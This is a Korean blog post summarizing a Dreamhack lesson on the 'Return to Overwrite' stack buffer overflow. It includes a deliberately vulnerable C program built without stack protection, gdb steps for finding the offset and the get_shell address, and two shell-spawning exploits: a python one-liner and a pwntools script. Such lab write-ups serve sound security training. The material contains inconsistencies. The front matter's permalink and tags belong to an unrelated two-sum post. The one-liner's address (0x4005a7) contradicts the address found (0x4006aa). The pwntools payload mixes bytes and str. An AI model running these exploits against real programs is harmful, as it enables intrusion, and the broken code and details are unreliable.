 ```yaml
---
title: "[pwnable] Return To Overwrite"
date: 2022-02-08T00:00:00+00:00
author: 이정목
layout: post
permalink: /3273-두-수의-합/
categories: PS
tags: [백준, 투포인터, 두 수의 합]
---
```


**해당 포스팅은 드림핵의 강의를 정리한 글이다.** Return to Overwrite는 스택 버퍼 오버플로우를 이용해서 return 자리의 주소를 내가 원하는 주소로 바꾸는 것이다. 따라서 스택에서 어느 위치에 버퍼가 위치해 있고, 얼마만큼을 overwrite해야 하는지를 잘 따져 주어야 한다. 해당 이미지는 [드림핵](https://dreamhack.io/learn/58#7)에 있는 그림을 가져온 것이다. 내가 함수 호출 규약을 설명한 [글](https://mok0102.github.io/호출-규약/)을 보면 제대로 알 수 있다.  

![이미지](https://kr.object.ncloudstorage.com/dreamhack-content/page/ba14b1d45d74d46ab7f84d20ec60a4806f9d42bb29d2fb6f434cf152d9b0a76c.png) 

## 스택 구조
함수 스택이 새로 생성되면, 함수 파라미터들이  제일 주소가 큰 쪽(아래쪽)에 쌓이고, 그 다음에 돌아가기 위한 ret주소가 실리고, 그 위에 이전 스택 프레임의 시작 지점(sfp)가 실린다. 그 위에 이제 buf처럼 해당하는 변수들이 쌓이게 된다. 따라서 스택은 위로(주소가 큰 쪽에서 작은 쪽으로) 자란다. 그러나 우리가 buf에 값을 쓰는 건 위에서 아래로 써진다.(주소가 작은 쪽에서 큰 쪽으로) 결국 우리가 buf에서 값을 쓰기 시작하면 그 밑에 있는 sfp, ret에까지 침범할 수 있게 된다는 것이다. 이게 stack buffer overflow이고, 특별히 이 ret부분에 내가 실행하고자 하는 함수의 주소를 넣는 것이 return to overwrite이다. 

## 문제
우리는 다음 c 코드에서 쉘을 따는 익스플로잇을 Return to Overwrite를 통해 구현할 것이다. 아무런 보호 기법을 아직 적용하지 않고 문제를 풀 것이기 때문에 gcc 옵션으로 -fno-stack-protector와 -no-pie를 준다.
```c
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie
#include <stdio.h>
#include <unistd.h>
void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}
void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};
  execve(cmd, args, NULL);
}
int main() {
  char buf[0x28];
  init();
  printf("Input: ");
  scanf("%s", buf);
  return 0;
}
```

## 문제 풀이
#### 1. 밀어야 할 크기 구하기
위 그림의 스택 구조에서, buf와 sfp를 모두 A와 같은 아무 문자열로 밀어 버리고 ret에 get_shell의 구조를 넣으면 쉘을 딸 수 있다. 따라서 가장 먼저 해야 하는 것은 buf와 sfp가 얼마나의 공간을 차지하고 있는가이다. 그걸 알아야 몇개의 A로 buf와 sfp를 깔끔하게 밀 수 있는지를 알 수 있을 테니까. 가장먼저, 64비트 체계이기 때문에 스택 한 칸의 크기는 0x8이다. 만약 32비트라면 0x4가 된다. 따라서 buf는 찾아봐야겠지만, sfp는 0x8만큼 차지하고 있다고 알 수 있다. 
이제, buf가 얼마나 공간을 차지하는지를 찾아볼 것이다. buf가 0x28만큼 공간을 차지하고 있다고 생각하고 buf 0x28, sfp 0x8해서 0x28+0x8만큼 민다고 생각할 수 있는데, 내가 느끼기로는 c코드만 보고서는 buf의 크기를 정확하게 알 수 없다. 0x28일 때도 있고, alignment라고 해서 8의 배수를 맞추기 위해? 조금 더 커질 때도 있다. 근데 내 경험상 8의 배수랑도 상관이 잘 없는 거 같고, 그냥 gdb로 buf의 크기가 얼마만큼 할당됬는지를 보는 게 제일 마음 편하다. 
![이미지](https://github.com/JungMok-Lee/JungMok-Lee.github.io/blob/master/assets/images/2022_02_09_gdb_main.png?raw=true){: width="500" height="500"}
밑의 그림을 보면, push rbp(이 Push된 자리에 sfp가 들어간다) 이후 sub rsp, 0x30을 하는데, 지금 rsp가 sfp자리를 가리키고 있는 상태에서 rsp가 위로 0x30만큼 올라갔으므로, buf의 크기가 0x30임을 알 수 있다. 
**결국 buf의 크기: 0x30, sfp의 크기: 0x8이므로 우리가 ret까지 가려면 총 0x38만큼을 아무 문자로 밀어주면 된다.**

#### 2. ret자리에 들어가야 할 것 구하기
지금 함수 중에 get_shell이라는 함수를 만들어 줬기 때문에, 굳이 막 라이브러리의 shell함수를 실행하지 않고 그냥 이 파일 자체의 get_shell함수의 주소를 ret자리에 넣어 주면 프로그램이 이게 return 주소인줄 착각하고 get_shell을 실행시킨다. 그럼 get_shell의 주소는 어떻게 구하면 될까? 모든 보호기법이 해제되어 있기 때문에, 프로그램을 실행할 때마다 get_shell의 주소가 바뀌는 복잡한 상황은 생기지 않는다. 따라서 get_shell의 주소를 다이나믹하게 구할 필요가 없고 그냥 상수처럼 한번 딱 찾아서 계속 그걸 쓰면 된다. 그럼 get_shell의 주소는 어떻게 찾을까? 여러가지 방법이 있다. 나는 gdb에 info func을 쳐서 나오는 모든 함수들의 주소 중에 get_shell을 찾아서 사용했는데, 단순히 그냥 print get_shell을 gdb에 입력하면 그 함수에 대한 정보를 주면서 주소도 같이 준다. 어떤 방법을 사용하던 상관 없다! 밑에서 구한 주소는 0x4006aa였다.

![이미지](https://github.com/JungMok-Lee/JungMok-Lee.github.io/blob/master/assets/images/2022_02_09_get_shell.png?raw=true)

#### 3. 익스플로잇 작성
###### 1) 커멘드
커멘드로 바로 보낼 수도 있는데, 여기서 주의해야 할 점은 실행파일이 64비트 little endian이므로 get_shell의 주소를 Little endian으로 바꿔서 보내야 한다는 것이다. 파이썬에 -c 옵션을 주어서 파이썬 실행 결과를 rao파일을 실행하면서 보낸다. 외워 두면 그래도 어느 정도 좋을 것 같다.
```python
(python -c "print 'A'*0x30 + 'A'*0x8 + '\xa7\x05\x40\x00\x00\x00\x00\x00'";cat)| ./rao
```

###### 2) pwntools
1번 방법을 나는 잘 몰라서 pwntools로 작성했다. rao 실행파일과 연결 후, input을 받기 전까지(Input: 이 터미널에 띄워 질때까지) 기다린다. 이후 페이로드로 0x38만큼 밀고, p64를 써서 get_shell의 주소를 little endian으로 보낸다. p64이므로 64비트로 패킹해준다. p32는 little endian으로 32비트로 패킹해준다. 이렇게 보내고 나면 익스플로잇이 완료되었으므로, 쉘과 인터렉티브하게 주고받기 위해 p.interactive()를 보낸다. 

```python
from pwn import *
p = process("./rao")

p.recvuntil("Input: ")

payload = b'A'*0x30 + 'A'*0x8
payload += p64(0x4006aa)

p.sendline(payload)

p.interactive()
```